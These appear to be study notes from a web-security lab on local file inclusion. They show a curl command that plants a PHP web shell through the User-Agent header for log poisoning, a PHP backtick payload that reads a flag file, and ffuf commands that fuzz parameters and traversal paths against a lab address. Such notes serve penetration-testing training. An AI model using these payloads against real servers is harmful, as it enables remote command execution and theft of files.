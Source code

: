 
![[Pasted image 20240614150353.png]]


**Exploit**

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

![[Pasted image 20240614150539.png]]



- if ==read== ==permission== is ==disable== for ==log== files 
	- User-Agent is also shown in `/proc/self/environ` or `/proc/self/fd/<pid>`


**ASSESMENT:**
```
<?=`tac%20/c85ee5082f4c723ace6c0796e3a3db09.txt`?>
```



## Automated Scanning

### Fuzzing Parameters

```shell
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

### LFI wordlists

- [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

```shell
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.54.176:30951?view=FUZZ' -fs 2287
```

### Fuzzing Server Files

-  locate a file we uploaded, but we cannot reach its `/uploads` directory (`../../uploads`)
- fuzz for the `index.php`  [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

```shell
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://94.237.54.176:30951/index.php?view=../../../../FUZZ/index.php' -fs 2287
``` 

##### Server Logs/Configurations
